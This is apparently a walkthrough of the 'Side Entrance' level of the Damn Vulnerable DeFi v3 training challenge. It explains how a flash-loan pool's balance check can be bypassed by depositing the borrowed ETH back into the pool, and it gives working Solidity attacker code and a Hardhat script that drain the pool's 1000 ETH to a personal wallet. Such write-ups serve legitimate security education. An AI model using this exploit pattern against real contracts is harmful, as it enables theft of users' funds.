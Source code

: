 ### [Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/side-entrance)

### Task
>A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

>It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

>Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.
### Observations

- This contract allows users to deposit and withdraw Eth.

- This contract allows flashloans as long as the ammount is payed back in the same transaction:
```
if (address(this).balance < balanceBefore)
            revert RepayFailed();
```

- The `flashLoan()` func calls `execute()` on the borrower contract. We can write anything into this function.

- We can deposit the borrowed money back to the contract from within the `execute()` function.

- Then we just withdraw it all again using `withdraw()`.

### Steps

- Make an attacker contract with the following functions:
  - `attack()` to call the flashloan and then withdraw the newly depositted funds:
  ```
    function attack() external {
        uint256 amount = address(lenderPool).balance;
        lenderPool.flashLoan(amount);
        //lender calls execute() with `amount` value.
        //then withdraw
        lenderPool.withdraw();
    }
  ```
  - `execute()` to deposit the flashloan funds back to the lender contract:
  ```
    function execute() external payable {
        lenderPool.deposit{value: msg.value}();
    }
  ```

  - `receive()` to receive the withdrawn ether and to forward it to our personal wallet:
  ```
    receive() external payable {
        SafeTransferLib.safeTransferETH(owner, address(this).balance);
    }
  ```

- In Hardhat test file:
  - Deploy the hack contract and execute the `attack()` function:
  ```
    const hack = await (await ethers.getContractFactory('SideEntranceHack', player)).deploy(pool.address);
    await hack.connect(player).attack();
  ```